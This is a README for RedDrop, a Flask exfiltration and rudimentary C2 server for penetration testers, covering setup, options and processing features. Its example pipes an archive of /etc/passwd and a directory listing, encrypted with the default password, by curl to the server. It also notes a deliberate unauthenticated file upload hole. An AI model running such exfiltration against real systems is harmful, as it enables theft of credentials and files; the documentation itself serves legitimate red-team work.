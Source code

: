 # RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG]
                        [--dump-config] [--debug]
                        [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                        [-A | --auto-process | --no-auto-process]
                        [--auto-extract-tar]
                        [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

A Webserver for File Exfiltration and C2.

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default:
                        False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more
                        than once to define multiple process_list functions.
                        Use this flag in the order in which you wish to
                        process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data.
                        This option is enabled by default, but should be
                        disabled (--no-auto-process) when you receive output
                        you don't expect. Such as in the case of Base64
                        decoding being run on output that is not Base64
                        encoded. Instead, force the process with the `-p`
                        flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server.
                        (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default:
                        EncryptMe)

Far more configuration options exist which must be specified in Environment
Variables, use `--dump_config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar -cz /etc/passwd \
| openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe' \
| curl 127.0.0.1$PWD -F "dir_listing=`ls -al | openssl enc -a -e -aes-256-cbc -pbkdf2 -pass 'pass:EncryptMe'`" -F "upload=@-" 
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
